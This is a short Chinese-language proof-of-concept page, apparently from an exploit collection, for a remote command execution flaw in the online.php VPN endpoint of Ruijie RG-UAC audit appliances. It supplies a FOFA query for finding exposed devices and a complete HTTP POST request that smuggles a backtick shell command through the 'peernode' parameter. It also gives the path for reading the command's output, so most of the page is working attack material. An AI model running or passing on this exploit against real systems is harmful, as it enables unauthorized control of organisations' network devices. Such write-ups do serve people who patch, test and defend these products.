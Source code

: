 ## 锐捷RG-UAC统一上网行为管理审计系统online.php存在远程代码执行

锐捷RG-UAC中存在命令执行漏洞，应用程序管理网关后端 /view/vpn/autovpn/online.php接口。攻击者可以执行任意命令来控制服务器权限。

## fofa

```
app="Ruijie-RG-UAC"
```

## poc

```
POST /view/vpn/autovpn/online.php HTTP/1.1
Host: XXXXXXX:1443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*
;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://XXXXXXX:280
Sec-GPC: 1
Connection: close
Referer: http://XXXXXXXXX:280/view/fireWall/PreDOSattack/list.php
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

peernode=`id+>1.txt`
```

![image-20240526185502840](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261855901.png)



文件路径

```
/view/vpn/autovpn/1.txt
```

